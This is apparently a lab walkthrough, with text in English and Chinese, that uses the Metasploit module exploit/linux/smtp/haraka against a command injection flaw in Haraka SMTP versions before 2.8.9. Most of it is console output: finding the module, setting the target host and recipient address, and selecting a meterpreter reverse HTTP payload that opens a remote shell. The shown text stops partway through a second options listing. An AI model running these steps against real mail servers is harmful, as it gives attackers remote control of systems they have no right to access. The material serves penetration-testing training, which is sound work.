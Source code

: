 [Haraka SMTP Command Injection](https://www.rapid7.com/db/modules/exploit/linux/smtp/haraka/)

Haraka SMTP Command Injection

The Haraka SMTP server comes with a plugin for processing attachments. Versions before 2.8.9 can be vulnerable to command injection

Haraka SMTP 命令注入

Haraka SMTP 服务器带有一个用于处理附件的插件。2.8.9 之前的版本容易受到命令注入攻击

```
msf5 > search type:exploit name:haraka

Matching Modules
================

   #  Name                       Disclosure Date  Rank       Check  Description
   -  ----                       ---------------  ----       -----  -----------
   1  exploit/linux/smtp/haraka  2017-01-26       excellent  Yes    Haraka SMTP Command Injection


msf5 > use exploit/linux/smtp/haraka
msf5 exploit(linux/smtp/haraka) > show options

Module options (exploit/linux/smtp/haraka):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL for incoming connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                      no        The URI to use for this exploit (default is random)
   email_from  foo@example.com  yes       Address to send from
   email_to    admin@localhost  yes       Email to send to, must be accepted by the server
   rhost       192.58.156.3     yes       Target server
   rport       25               yes       Target server port


Exploit target:

   Id  Name
   --  ----
   0   linux x64
```

```
msf5 exploit(linux/smtp/haraka) > set SRVPORT 9898
SRVPORT => 9898
msf5 exploit(linux/smtp/haraka) > set email_to root@attackdefense.test
email_to => root@attackdefense.test
msf5 exploit(linux/smtp/haraka) > set payload linux/x64/meterpreter_reverse_http
payload => linux/x64/meterpreter_reverse_http
msf5 exploit(linux/smtp/haraka) > show options

Module options (exploit/linux/smtp/haraka):

   Name        Current Setting          Required  Description
   ----        ---------------          --------  -----------
   SRVHOST     0.0.0.0                  yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     9898                     yes       The local port to listen on.
   SSL         false                    no        Negotiate SSL for incoming connections
```